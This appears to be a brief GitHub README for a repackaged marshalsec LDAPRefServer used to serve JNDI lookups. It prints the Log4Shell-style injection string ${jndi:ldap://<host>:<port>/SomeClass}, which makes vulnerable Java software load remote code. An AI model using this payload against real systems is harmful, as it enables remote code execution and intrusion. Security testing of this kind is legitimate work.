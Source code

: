 # LDAPRefServer

This just contains the LDAPRefServer.java from [mbechler/marshalsec Github Repo](https://github.com/mbechler/marshalsec/tree/master), required to trigger a jndi lookup via LDAP.

Just made a minor tweak so that the lookup is done like: 
 ```
${jndi:ldap://<host>:<port>/SomeClass}
 ```
As opposed to:
```
${jndi:ldap://<host>:<port>/#SomeClass}
```
